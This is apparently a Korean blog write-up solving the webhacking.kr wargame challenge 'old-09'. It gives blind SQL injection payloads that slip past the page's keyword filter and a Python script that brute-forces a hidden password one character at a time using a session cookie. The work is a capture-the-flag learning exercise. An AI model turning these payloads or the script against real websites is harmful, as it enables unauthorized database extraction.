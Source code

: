 ```yaml
---
title: "[ webhacking.kr ] old-09"
date: "2023-09-26 01:00:00"
categories: [Wargame, webhacking.kr]
tag: [webhacking.kr, web]
---
```


![](/assets/images/2023-09-26-old-09/2023-09-26-10-37-25.png)

1,2,3을 선택할 수 있고, 비밀번호를 입력할 수 있다.

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-38-14.png)

![](/assets/images/2023-09-26-old-09/2023-09-26-10-38-29.png)

1번을 누를 때는 Apple, 2번을 누를 때는 Banana가 나온다.

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-39-54.png)

3번을 누르면 칼럼은 id,no로 구성되어 있고, no=3의 id가 비밀번호라고 적혀있다. 

<br>

![](/assets/images/2023-09-26-old-09/2023-09-26-10-43-21.png)

no에 공백 및 여러 문자열(union, select, char 등) 이 필터링 되어있다. 또한 no의 숫자가 3보다 크거나 쿼리가 false일 경우 아무것도 출력되지 않는다.

따라서 Blind SQL Injection을 시도할 수 있다.

<br>

id의 길이를 찾는 쿼리는 다음과 같이 작성할 수 있다.

<center><h3>no=if(length(id)like({ID 길이}),3,0)</h3></center>

<br>

id의 길이를 확인한 후 id를 찾는 쿼리는 다음과 같다.

<center><h3>no=if(substr(id,{인덱스},1)like({문자의 헥스값}),3,0)</h3></center>

<br>

이를 이용하여 파이썬 코드를 다음과 같이 작성할 수 있다.

```python
import requests

cookies = {'PHPSESSID': '44cpq3e3pvl1ie5dhlv1bq3f2b'}
keyword = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

def findIdLength():
    for i in range(1,20):
        url = f'https://webhacking.kr/challenge/web-09/index.php?no=if(length(id)like({i}),3,99)'
        res = requests.get(url=url, cookies=cookies)
        if "Secret" in res.text:
            print(f'[*] ID Length: {i}')
            return i
        
def findIdFullname(id_len):
    id = ''
    for i in range(1,id_len+1):
        for j in keyword:
            url = f'https://webhacking.kr/challenge/web-09/index.php?no=if(substr(id,{i},1)like({hex(ord(j))}),3,99)'
            res = requests.get(url=url, cookies=cookies)
            if "Secret" in res.text:
                id += j
                print(f'[*] ID: {id}')
                break
        
if __name__ == '__main__':
    id_len = findIdLength()
    findIdFullname(id_len)
```

<br>

찾아낸 비밀번호를 입력하면 문제를 풀 수 있다.


![](/assets/images/2023-09-26-old-09/2023-09-26-10-32-45.png)
